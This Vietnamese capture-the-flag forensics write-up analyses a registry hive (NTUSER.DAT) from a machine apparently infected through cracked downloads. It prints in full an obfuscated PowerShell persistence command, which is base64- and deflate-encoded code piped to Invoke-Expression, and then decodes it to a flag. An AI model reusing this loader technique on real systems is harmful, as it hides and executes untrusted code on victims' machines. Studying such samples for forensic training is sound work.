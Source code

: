 ## Đề 
> Hòa thấy hiện tượng lạ mỗi khi anh ta khởi động máy tính. Anh ta nghĩ rằng việc tải các video không lành mạnh gần đây đã khiến máy tính của anh ta bị hack.
## Link downloads
> https://drive.google.com/file/d/1pShye_YtnUuIObPdnq9PeiIge0Oelsix/view?usp=drive_link (pass: cookiehanhoan)
## Giải 
- Sau khi tải về em được 1 file tên `NTUSER.DAT`, kiểm tra loại file em thu được kết quả
```text
NTUSER.DAT: MS Windows registry file, NT/2000 or above
```
- Em sẽ mở file registry với công cụ `registry explorer` của windows
- ![image](image/1.PNG)
- Vì tiêu đề là máy tính của HOà bị hack vì tải phần mềm crack nên ắt hẳn nó phải liên quan đến process cmd.exe và powershell.exe. Em lần lượt search 2 chuỗi này
- Tại powershell.exe em thấy được 1 đoạn shell như sau : 
- ![image](image/2.PNG)
- ![image](image/3.PNG)
> "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon"
- Ở đây nó sẽ mã hoá dòng trong dấu nháy, khi tiến hành thực thi nó sẽ giải mã ra 
- Bây giờ em sẽ gán đoạn thực thi đó cho 1 biến a
- ![image](image/4.PNG)
- Sau đó in ra 
- ![image](image/5.PNG)
> Flag : `CHH{N0_4_go_n0_st4r_wh3r3}`
